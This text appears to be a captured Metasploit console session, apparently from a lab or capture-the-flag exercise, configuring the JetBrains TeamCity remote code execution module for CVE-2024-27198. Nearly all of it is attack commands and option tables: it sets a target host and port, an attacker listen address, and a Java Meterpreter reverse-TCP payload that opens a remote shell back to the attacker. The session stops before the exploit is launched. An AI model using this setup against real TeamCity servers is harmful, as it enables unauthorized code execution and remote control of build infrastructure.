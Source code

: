 

View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOST 10.10.25.146
RHOST => 10.10.25.146
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             10.10.25.146     yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                                 tasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.22.122   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RPORT 50000
RPORT => 50000
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set LHOST 10.9.0.254
LHOST => 10.9.0.254
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             10.10.25.146     yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                                 tasploit/basics/using-metasploit.html
   RPORT              50000            yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host
